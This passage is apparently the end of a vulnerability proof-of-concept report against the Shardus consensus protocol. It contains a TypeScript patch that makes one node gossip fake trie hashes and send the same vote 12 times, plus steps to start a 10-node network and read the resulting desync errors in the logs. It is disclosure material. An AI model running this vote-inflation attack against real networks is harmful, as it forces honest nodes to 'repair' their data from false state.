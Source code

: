 With this:

```
        // HACK: INFOSEC
        // if we are 9002 (evil node) send a malicious hash and vote for it 12 times in a row
        // if we are not 9002 proceed as usual
        if (Self.getThisNodeInfo().externalPort == 9002) {
          console.log(`INFOSEC: Dup votes sent via binary`);
          for (let i = 0; i < syncTrieHashesRequest.nodeHashes.length; i++) {
            syncTrieHashesRequest.nodeHashes[i].hash = `helloWorld${i}`;
          }

          for (let a = 0; a < 12; a++) {
            const promise = this.p2p.tellBinary<SyncTrieHashesRequest>(
              [messageEntry.node],
              InternalRouteEnum.binary_sync_trie_hashes,
              syncTrieHashesRequest,
              serializeSyncTrieHashesReq,
              {}
            )
            promises.push(promise)
          }
        } else {
          const promise = this.p2p.tellBinary<SyncTrieHashesRequest>(
            [messageEntry.node],
            InternalRouteEnum.binary_sync_trie_hashes,
            syncTrieHashesRequest,
            serializeSyncTrieHashesReq,
            {}
          )
          promises.push(promise)
        }
```

With these changes, we have modified the node to do the following:

- If the current node executing the code is NOT running in port 9002, then is going to be a legit/good node and it will run as usual. No modifications are made to these nodes, they will gossip the correct hashes.

- If the current node executing the code IS running in port 9002, then is going to be a malicious node, that will gossip a malicious hash and inflate its votes in the consensus system until it wins v.s. the correct/legit hash, and forces the network to "repair" their data.

Now build both codebases, and start the network with 10 nodes using shardus's CLI (shardus start 10)

Wait until cycle 16 before proceeding with the next step. All nodes should be active and synced by cycle 16.

Finally, go to the log file at ./instances/shardus-instance-9004/logs/fatal.log and it will be filled with errors about not being in sync and having bad accounts.

A huge dump asking to repair all data accounts can be found in ./instances/shardus-instance-9004/logs/main.log - is too big to paste here.

# Conclusion

In this POC we prove how to bypass the consensus system and fool the network into believing they have the wrong data state and must repair the accounts data with "the correct" trie data structure.





